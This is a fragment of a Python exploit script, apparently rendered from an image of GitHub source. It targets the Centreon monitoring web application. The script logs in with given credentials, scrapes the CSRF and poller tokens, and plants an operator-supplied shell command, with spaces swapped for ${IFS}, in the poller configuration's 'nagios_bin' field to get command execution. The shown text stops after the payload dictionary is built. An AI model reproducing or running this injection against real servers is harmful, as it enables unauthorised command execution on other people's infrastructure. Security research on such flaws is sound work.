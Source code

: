 ```
    print("[~] Usage : ./centreon-exploit.py url username password command")
    exit()

url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]
command = sys.argv[4].replace(" ", '${IFS}')

burp = {'http': 'http://localhost:8080'}

request = requests.session()
request.proxies = burp
print("[+] Retrieving CSRF token to submit the login form")
page = request.get(url+"/index.php")
html_content = page.text
soup = BeautifulSoup(html_content, features="lxml")
token = soup.findAll('input')[3].get("value")

login_info = {
    "useralias": username,
    "password": password,
    "submitLogin": "Connect",
    "centreon_token": token
}
login_request = request.post(url+"/index.php", login_info)
print("[+] Login token is : {0}".format(token))
if "Your credentials are incorrect." not in login_request.text:
    print("[+] Logged In Sucssfully")
    print("[+] Retrieving Poller token")

    poller_configuration_page = url + "/main.get.php?p=60901"
    get_poller_token = request.get(poller_configuration_page)
    poller_html = get_poller_token.text
    poller_soup = BeautifulSoup(poller_html, features="lxml")
    poller_token = poller_soup.findAll('input')[24].get("value")
    print("[+] Poller token is : {0}".format(poller_token))

    payload_info = {
        "name": "Central",
        "ns_ip_address": "127.0.0.1",
        # this value should be 1 always
        "localhost[localhost]": "1",
        "is_default[is_default]": "0",
        "remote_id": "",
        "ssh_port": "22",
        "init_script": "centengine",
        # this value contains the payload , you can change it as you want
        "nagios_bin": f'{command}||',
        "nagiostats_bin": "/usr/sbin/centenginestats",
        "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
        "centreonbroker_cfg_path": "/etc/centreon-broker",
        "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
        "centreonbroker_logs_path": "",
        "centreonconnector_path": "/usr/lib64/centreon-connector",
        "init_script_centreontrapd": "centreontrapd",
        "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
        "ns_activate[ns_activate]": "1",
        "submitC": "Save",
        "id": "1",
        "o": "c",
        "centreon_token": poller_token,
    }

```
